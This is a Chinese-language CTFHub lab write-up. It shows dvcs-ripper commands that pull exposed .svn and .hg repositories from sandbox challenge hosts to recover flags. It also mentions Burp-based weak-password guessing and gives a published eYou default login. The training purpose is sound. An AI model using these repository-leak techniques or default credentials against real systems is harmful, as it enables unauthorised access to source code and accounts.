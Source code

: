 ### SVN泄露
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751615221109-ab28aa7c-802f-44d0-8490-4a5fa4edbfc4.png)

linux系统上安装dvcs-ripper

```shell
./rip-svn.pl -u http://challenge-6063e4511270c110.sandbox.ctfhub.com:10800/.svn/
la
cd .svn
cat wc.db | grep -a ctfhub
cd pristine/
la
cat 75/7522b3c99b02d3df183cc256ce3629ab8c37f958.svn-base
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751681686843-fad6cc1d-5bc3-434d-b14d-82a9d0f4eddb.png)

### HG泄露
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751681721995-02bfed44-a9de-42e1-a2e7-ee53eb7d27b1.png)

```shell
./rip-hg.pl -u http://challenge-f9d41b1415c932d8.sandbox.ctfhub.com:10800/.hg/
tree .hg
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751682209162-dfafc757-1003-4b50-b011-f2f6049dcf76.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751682498458-2a8cb2ff-f7d2-4197-87ed-f33c87c81b00.png)

查找到`flag_2968918689.txt`

访问`[http://challenge-f9d41b1415c932d8.sandbox.ctfhub.com:10800/flag_2968918689.txt](http://challenge-f9d41b1415c932d8.sandbox.ctfhub.com:10800/flag_2968918689.txt)`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751682537399-67fd7715-3c1f-4d05-a1c7-78b2d412ce0c.png)

## 二、密码口令
### 弱口令
bp

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751536173369-aaf2392e-e3ef-47c7-93fb-ba12ddadc3ce.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751536187804-768958dd-313a-4088-9417-d4d7e4847f5b.png)

### 默认口令
使用admin用户登录，显示用户不存在，尝试测试用户名，失败

浏览器搜索eYou默认账户名密码进行尝试

```sql
 eyougw:admin@(eyou)
```

